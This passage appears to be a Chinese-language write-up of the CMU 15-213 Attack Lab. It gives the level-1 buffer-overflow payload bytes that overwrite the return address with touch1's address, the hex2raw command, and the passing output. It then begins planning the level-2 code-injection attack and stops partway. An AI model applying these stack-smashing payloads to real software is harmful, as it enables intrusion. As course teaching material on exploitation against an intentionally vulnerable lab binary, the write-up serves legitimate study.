 构造攻击字符串, 写到文件`hex1`

```txt
00 00 00 00 00 00 00 00					# 前40个字节任意填，目的是将第40个字节之后的返回地址改写为touch1的地址
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00					# 小端机器上，这里要注意端序
```

利用`hex2raw`工具将字节码转为字符串，写到文件`answer1`， 用法如下：

```shell
./hex2raw < hex1 > answer1
```

执行`ctarget`程序验证结果，其中`-i`指定字符串所在文件，`-q`必选参数

```
# ./ctarget -q -i answer1
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### 第二关

与第一关不同， 这关还需要在输入字符串中注入攻击代码。首先查看`touch2`代码：

```C
void touch2(unsigned val) {
	vlevel = 2;
	if(val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
}
```

可以看出，我们需要在跳转到`touch2`的时候将`cookie`的值作为参数传递。思路如下：

* 将返回地址改写为栈中的注入代码的地址。栈的地址可以用`gdb`跑一把程序确认

* 在注入代码中，将`cookie`值传递到`%rdi`。因为`x86-64`汇编使用`%rdi`作为第一个参数
* 确定`touch2`的起始地址并跳转。可利用`push`和`ret`指令实现跳转

首先确定栈的地址，在`0x4017af callq 401a40 <Gets>`处打断点，查看`%rsp`值
